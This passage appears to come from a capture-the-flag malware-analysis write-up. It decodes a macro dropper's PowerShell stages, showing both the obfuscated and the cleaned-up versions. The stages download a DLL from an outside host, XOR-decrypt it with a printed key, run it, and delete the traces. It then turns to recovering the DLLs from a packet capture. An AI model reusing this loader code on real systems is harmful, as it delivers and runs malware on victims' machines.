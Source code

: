 ```vb
Run.Run OK3, Chr(48)
```

1. Executes `$LL1`, `$LL2`, `$LL3`, `$LL4`, `$LL5` PowerShell commands with `Run`.
2. Executes `$MM1`, `$MM2`, `$MM3`, `$MM4`, `$MM5` PowerShell commands with `Run`.
3. Executes `$OK1`, `$OK2`, `$OK3` PowerShell commands with `Run`.

We should now understand the `$LL*`, `$MM*` and `$OK*` PowerShell commands.

`$LL1`: 
```powershell
$Nano='JOOEX'.replace('JOO','I');sal OY $Nano;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://priyacareers.htb/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;
```
Cleaned up:
```powershell
(New-Object Net.WebClient).DownloadFile("http://priyacareers.htb/u9hDQN9Yy7g/pt.html", "C:\ProgramData\www1.dll")
```

`$MM1`:
```powershell
$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
```
Cleaned up:
```powershell
$enc_dll = [System.IO.File]::ReadAllBytes('C:\ProgramData\www1.dll')
$key = '6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6'
$dll = New-Object Byte[] $enc_dll.length;
for($i=0; $i -lt $enc_dll.length; $i++){
    $dll[$i] = $enc_dll[$i] -bxor $key[$i%$key.length]
};
if ($r.length -gt 0) {
    [System.IO.File]::WriteAllBytes('C:\programdata\www.dll', $dll)
}
```

1. The `$LL*` PowerShell commands download `www*.dll` files.
2. The `$MM*` PowerShell commands XORs the respective `DLL`s with a random `base64` key and writes the result to `www.dll`. `WriteAllBytes` always creates a new file, so only the last successfully downloaded `DLL` will decrypted to `www.dll`.
3. `$OK1` executes the `ldr` function of `www.dll`, `$OK2` and `$OK3` deletes all evidence.

Now, we have the encryption keys, but we don't have the `DLL`s. They might be in the capture.

### Finding the DLLs

In `Wireshark`, if we go to `File -> Export Objects -> HTTP`, we can easily export the `HTTP` responses from the capture without thinking.
